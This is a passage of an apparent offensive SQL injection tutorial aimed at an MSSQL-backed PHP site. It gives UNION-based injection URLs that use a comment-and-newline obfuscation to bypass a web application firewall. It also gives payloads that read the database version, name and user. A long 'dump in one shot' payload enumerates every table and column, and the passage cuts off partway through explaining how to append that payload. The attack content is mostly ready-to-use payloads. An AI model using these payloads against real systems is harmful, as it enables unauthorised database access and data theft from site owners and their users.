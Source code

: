 ```http://domain.com/index.php?id=1```  
Use the union query which worked, in this case I bypassed WAF and found that the 3rd column is vulnerable with payload:  
```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4-- -```  

Becasue of the 3rd column, replace number **3** with the following payloads to retrieve informations:

```
@@version  
db_name()  
user_name()
```

Example:  
Retrieve database version:  
```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,@@version,4-- -```  
Look at the error message, the version will be displayed there.  

Retrieve database name:  
```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,db_name(),4-- -```  
Look at the error message, the database name will be displayed there.  

Retrieve username of database:  
```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,user_name(),4-- -```  
Look at the error message, the database username will be displayed there.  

## Dumping database with DIOS

#### What is DIOS?

DIOS (dump in one shot), is a long crafted payload which will dump database(), tables() and columns() and will display it in the website.  

- Here is a list of MSSQL DIOS payloads:

```
;begin declare @x varchar(8000), @y int, @z varchar(50), @a varchar(100) declare @myTbl table (name varchar(8000) not null) SET @y=1 SET @x='injected by rummykhan :: '%2b@@version%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Database : '%2bdb_name()%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62) SET @z='' SET @a='' WHILE @y<=(SELECT COUNT(table_name) from INFORMATION_SCHEMA.TABLES) begin SET @a='' Select @z=table_name from INFORMATION_SCHEMA.TABLES where TABLE_NAME not in (select name from @myTbl) select @a=@a %2b column_name%2b' : ' from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME=@z insert @myTbl values(@z) SET @x=@x %2b  CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Table: '%2b@z%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62)%2b'Columns : '%2b@a%2b CHAR(60)%2bCHAR(98)%2bCHAR(114)%2bCHAR(62) SET @y = @y%2b1 end select @x as output into Chall1 END--
```

#### How to use DIOS?

- This is a special case where DIOS store the payload into an environment variable. We will use the UNION based payload which we found the vulnerable column, this case we used:  
```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/ 1,2,3,4-- -```  

- Delete every number and **-- -** from the payload, so the payload will look like:  
```http://domain.com/index.php?id=1' /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/```  

- Right in the end of the payload add the DIOS payload:  

```